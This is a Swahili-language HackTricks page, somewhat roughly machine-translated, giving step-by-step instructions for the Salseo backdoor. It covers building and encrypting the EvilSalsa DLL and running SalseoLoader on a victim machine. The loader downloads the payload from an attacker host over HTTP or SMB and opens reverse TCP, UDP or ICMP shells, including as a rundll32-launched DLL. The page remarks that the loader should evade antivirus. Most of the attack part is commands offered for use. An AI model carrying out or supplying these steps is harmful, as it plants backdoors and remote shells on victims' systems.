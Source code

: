 # Salseo

{% hint style="success" %}
Jifunze na zoea AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**Mafunzo ya HackTricks AWS Timu Nyekundu Mtaalam (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Jifunze na zoea GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**Mafunzo ya HackTricks GCP Timu Nyekundu Mtaalam (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Aunga mkono HackTricks</summary>

* Angalia [**mpango wa usajili**](https://github.com/sponsors/carlospolop)!
* **Jiunge na** 💬 [**Kikundi cha Discord**](https://discord.gg/hRep4RUj7f) au kikundi cha [**telegram**](https://t.me/peass) au **tufuate** kwenye **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Shiriki mbinu za udukuzi kwa kuwasilisha PRs kwa** [**HackTricks**](https://github.com/carlospolop/hacktricks) na [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Kukusanya faili za binary

Pakua msimbo wa chanzo kutoka kwenye github na kusanya **EvilSalsa** na **SalseoLoader**. Utahitaji **Visual Studio** imewekwa ili kusanya msimbo.

Kusanya miradi hiyo kwa ajili ya usanifu wa sanduku la windows ambapo utazitumia (Ikiwa Windows inasaidia x64 kusanidi kwa usanifu huo).

Unaweza **kuchagua usanifu** ndani ya Visual Studio kwenye **Tab ya "Kujenga" kushoto** katika **"Lengo la Jukwaa".**

(\*\*Ikiwa huwezi kupata chaguo hili bonyeza **"Tab ya Mradi"** kisha kwenye **"Mali ya <Jina la Mradi>"**)

![](<../.gitbook/assets/image (132).png>)

Kisha, jenga miradi yote (Kujenga -> Kujenga Suluhisho) (Ndani ya magogo itaonekana njia ya faili ya kutekelezeka):

![](<../.gitbook/assets/image (1) (2) (1) (1) (1).png>)

## Andaa mlango wa nyuma

Kwanza kabisa, utahitaji kuweka msimbo wa **EvilSalsa.dll.** Kufanya hivyo, unaweza kutumia skripti ya python **encrypterassembly.py** au unaweza kusanya mradi **EncrypterAssembly**:

### **Python**
```
python EncrypterAssembly/encrypterassembly.py <FILE> <PASSWORD> <OUTPUT_FILE>
python EncrypterAssembly/encrypterassembly.py EvilSalsax.dll password evilsalsa.dll.txt
```
### Windows
```
EncrypterAssembly.exe <FILE> <PASSWORD> <OUTPUT_FILE>
EncrypterAssembly.exe EvilSalsax.dll password evilsalsa.dll.txt
```
Ok, sasa una kila kitu unachohitaji kutekeleza kila kitu cha Salseo: **EvilDalsa.dll iliyohifadhiwa** na **binary ya SalseoLoader.**

**Pakia binary ya SalseoLoader.exe kwenye mashine. Hawapaswi kugunduliwa na AV yoyote...**

## **Tekeleza mlango wa nyuma**

### **Kupata ganda la nyuma la TCP (kupakua dll iliyohifadhiwa kupitia HTTP)**

Kumbuka kuanza nc kama msikilizaji wa ganda la nyuma la nyuma na seva ya HTTP kutumikia evilsalsa iliyohifadhiwa.
```
SalseoLoader.exe password http://<Attacker-IP>/evilsalsa.dll.txt reversetcp <Attacker-IP> <Port>
```
### **Kupata kifuniko cha nyuma cha UDP (kupakua dll iliyohifadhiwa kupitia SMB)**

Kumbuka kuanza nc kama msikilizaji wa kifuniko cha nyuma, na seva ya SMB kuhudumia evilsalsa iliyohifadhiwa (impacket-smbserver).
```
SalseoLoader.exe password \\<Attacker-IP>/folder/evilsalsa.dll.txt reverseudp <Attacker-IP> <Port>
```
### **Kupata kifaa cha kurudi nyuma cha ICMP (dll iliyosimbwa tayari ndani ya mwathiriwa)**

**Wakati huu unahitaji kifaa maalum kwenye mteja kupokea kurudi kwa shell. Pakua:** [**https://github.com/inquisb/icmpsh**](https://github.com/inquisb/icmpsh)

#### **Zima Majibu ya ICMP:**
```
sysctl -w net.ipv4.icmp_echo_ignore_all=1

#You finish, you can enable it again running:
sysctl -w net.ipv4.icmp_echo_ignore_all=0
```
#### Tekeleza mteja:
```
python icmpsh_m.py "<Attacker-IP>" "<Victm-IP>"
```
#### Ndani ya mwathiriwa, tuendeshe kitu cha salseo:
```
SalseoLoader.exe password C:/Path/to/evilsalsa.dll.txt reverseicmp <Attacker-IP>
```
## Kukusanya SalseoLoader kama DLL inayotangaza kazi kuu

Fungua mradi wa SalseoLoader ukitumia Visual Studio.

### Ongeza kabla ya kazi kuu: \[DllExport]

![](<../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png>)

### Sakinisha DllExport kwa mradi huu

#### **Zana** --> **Msimamizi wa Pakiti ya NuGet** --> **Dhibiti Pakiti za NuGet kwa Suluhisho...**

![](<../.gitbook/assets/image (3) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png>)

#### **Tafuta pakiti ya DllExport (kwa kutumia kichupo cha Kutafuta), na bonyeza Sakinisha (na ukubali kisanduku cha arifa)**

![](<../.gitbook/assets/image (4) (1) (1) (1) (1) (1) (1) (1) (1) (1).png>)

Katika folda yako ya mradi, faili zimeonekana: **DllExport.bat** na **DllExport\_Configure.bat**

### **O**ndoa DllExport

Bonyeza **Ondoa** (ndio, ni ajabu lakini niamini, ni muhimu)

![](<../.gitbook/assets/image (5) (1) (1) (2) (1).png>)

### **Toka** Visual Studio na tekeleza DllExport\_configure

Tu **toka** Visual Studio

Kisha, nenda kwenye **folda yako ya SalseoLoader** na **tekeleza DllExport\_Configure.bat**

Chagua **x64** (ikiwa utaitumia ndani ya sanduku la x64, hilo lilikuwa suala langu), chagua **System.Runtime.InteropServices** (ndani ya **Namespace for DllExport**) na bonyeza **Tumia**

![](<../.gitbook/assets/image (7) (1) (1) (1) (1).png>)

### **Fungua tena mradi na Visual Studio**

**\[DllExport]** haipaswi tena kuwa na alama ya kosa

![](<../.gitbook/assets/image (8) (1).png>)

### Jenga suluhisho

Chagua **Aina ya Matokeo = Maktaba ya Darasa** (Mradi --> Mali za SalseoLoader --> Maombi --> Aina ya Matokeo = Maktaba ya Darasa)

![](<../.gitbook/assets/image (10) (1).png>)

Chagua **jukwaa la x64** (Mradi --> Mali za SalseoLoader --> Jenga --> Lengo la Jukwaa = x64)

![](<../.gitbook/assets/image (9) (1) (1).png>)

Kujenga suluhisho: Jenga --> Jenga Suluhisho (Ndani ya konsoli ya matokeo, njia ya DLL mpya itaonekana)

### Jaribu Dll iliyozalishwa

Nakili na ubandike Dll mahali unapotaka kuithibitisha.

Tekeleza:
```
rundll32.exe SalseoLoader.dll,main
```
Ikiwa hakuna kosa linaonekana, huenda una DLL inayofanya kazi!!

## Pata ganda kwa kutumia DLL

Usisahau kutumia **seva** ya **HTTP** na weka msikilizaji wa **nc**

### Powershell
```
$env:pass="password"
$env:payload="http://10.2.0.5/evilsalsax64.dll.txt"
$env:lhost="10.2.0.5"
$env:lport="1337"
$env:shell="reversetcp"
rundll32.exe SalseoLoader.dll,main
```
### CMD

### CMD
```
set pass=password
set payload=http://10.2.0.5/evilsalsax64.dll.txt
set lhost=10.2.0.5
set lport=1337
set shell=reversetcp
rundll32.exe SalseoLoader.dll,main
```
{% hint style="success" %}
Jifunze na zoea AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**Mafunzo ya HackTricks AWS Timu Nyekundu Mtaalam (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Jifunze na zoea GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**Mafunzo ya HackTricks GCP Timu Nyekundu Mtaalam (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Angalia [**mpango wa usajili**](https://github.com/sponsors/carlospolop)!
* **Jiunge na** 💬 [**Kikundi cha Discord**](https://discord.gg/hRep4RUj7f) au kikundi cha [**telegram**](https://t.me/peass) au **tufuate** kwenye **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Shiriki mbinu za udukuzi kwa kuwasilisha PRs kwa** [**HackTricks**](https://github.com/carlospolop/hacktricks) na [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
